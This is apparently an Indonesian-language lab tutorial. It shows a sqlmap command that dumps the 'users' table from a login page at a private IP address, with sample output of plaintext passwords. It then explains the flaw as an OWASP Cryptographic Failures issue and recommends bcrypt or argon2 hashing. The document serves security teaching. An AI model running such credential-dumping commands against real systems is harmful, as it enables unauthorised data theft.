

### Mengambil Data dari Tabel `users` di Database `blog_db`
Setelah database ditemukan, kita bisa mengambil data dari tabel tertentu. Gunakan perintah berikut untuk mengambil data dari tabel `users` di database `blog_db`:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" -D blog_db -T users --dump
```

#### Penjelasan Parameter
- `-D blog_db`: Menentukan nama database (`blog_db`) yang ingin diakses.
- `-T users`: Menentukan nama tabel (`users`) yang ingin diambil datanya.
- `--dump`: Menginstruksikan `sqlmap` untuk menampilkan seluruh data dari tabel yang ditargetkan.

#### Contoh Output
Output dari perintah ini mungkin menampilkan data seperti berikut:

```plaintext
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin123 |
| 2  | user     | userpass |
+----+----------+----------+
```



Pada hasil di atas, terlihat bahwa kolom `password` menyimpan password dalam bentuk teks biasa (*plain text*), bukan dalam bentuk yang terenkripsi atau di-hash. Ini adalah kelemahan serius yang masuk dalam kategori **Cryptographic Failures**.

---

## Analisis Kelemahan: Cryptographic Failures
### Penjelasan
Menyimpan password dalam bentuk teks biasa merupakan contoh *Cryptographic Failures*, di mana data sensitif seperti password tidak dilindungi dengan metode kriptografi yang tepat. Kelemahan ini dapat menyebabkan risiko besar bagi keamanan data pengguna.

### Dampak
1. **Akses Tidak Sah**: Jika terjadi pelanggaran data, penyerang bisa langsung melihat dan menggunakan password.
2. **Kegagalan Kepatuhan**: Banyak standar keamanan (misalnya, GDPR, HIPAA, PCI-DSS) mengharuskan data sensitif dienkripsi atau di-hash.
3. **Penyalahgunaan Kredensial**: Jika pengguna memakai ulang password di sistem lain, hal ini bisa mengakibatkan serangan yang meluas.

### Rekomendasi
Untuk mencegah kelemahan ini:
- **Hash Password dengan Algoritma yang Aman**: Gunakan hashing dengan algoritma yang kuat seperti `bcrypt`, `argon2`, atau `scrypt`.
- **Implementasikan Salt dan Pepper**: Tambahkan salt (nilai acak) pada setiap password sebelum hashing untuk meningkatkan keamanan dan mencegah serangan *rainbow table*.
- **Jangan Simpan Password dalam Teks Biasa**: Hindari menyimpan data sensitif dalam bentuk teks yang dapat dibaca langsung.

---

## Output yang Diharapkan dengan Penanganan yang Benar
Jika password disimpan dengan hashing yang benar, hasil dump seharusnya menunjukkan string acak yang terenkripsi, misalnya:

```plaintext
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | admin    | $2y$12$ePjDf5Kjd91ahZn/rF2ZLO3MC5E1.Ln.bD |
| 2  | user     | $2y$12$HtXmX47SDh2PAphH71HX93r/Kz6Re9kjgq |
+----+----------+-------------------------------------------+
```

---

## Referensi
- [SQLMap Documentation](https://sqlmap.org/)
- [OWASP Cryptographic Failures](https://owasp.org/Top10/A03_2021-Cryptographic_Failures/)

---

> **Catatan Penting**: Pastikan Anda memiliki izin untuk melakukan pengujian ini. Semua pengujian dan eksplorasi dalam dokumen ini hanya untuk tujuan pembelajaran di lingkungan yang diizinkan.
```
